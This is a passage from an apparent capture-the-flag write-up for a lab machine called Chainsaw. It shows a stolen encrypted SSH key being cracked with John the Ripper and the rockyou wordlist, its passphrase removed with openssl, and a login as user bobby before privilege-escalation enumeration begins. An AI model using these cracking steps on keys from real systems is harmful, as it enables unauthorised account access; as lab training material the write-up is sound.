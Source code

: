 I'll crack the password on the key with `john` / `rockyou`:



    root@kali# base64 -d bobby.key.enc.b64 > bobby.key.enc
    root@kali# /opt/john/run/ssh2john.py bobby.key.enc > bobby.key.enc.john
    root@kali# /opt/john/run/john bobby.key.enc.john --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
    Cost 2 (iteration count) is 2 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    jackychain       (bobby.key.enc)
    1g 0:00:00:14 DONE (2019-07-06 17:31) 0.06770g/s 971001p/s 971001c/s 971001C/s     1990..*7¡Vamos!
    Session completed



I'll make a copy of the key with no password:



    root@kali# openssl rsa -in bobby.key.enc -out ~/id_rsa_chainsaw_bobby
    Enter pass phrase for bobby.key.enc:
    writing RSA key



### SSH Shell

Now I can connect as bobby:



    root@kali# ssh -i ~/id_rsa_chainsaw_bobby bobby@10.10.10.142
    bobby@chainsaw:~$ id
    uid=1000(bobby) gid=1000(bobby) groups=1000(bobby),30(dip)



And grab `user.txt`:



    bobby@chainsaw:~$ cat user.txt 
    af8d9df9************************



## Priv: bobby --\> root

### Enumeration

In addition to `user.txt`, there's two folders in bobby's homedir:



    bobby@chainsaw:~$ ls
    projects  resources  user.txt
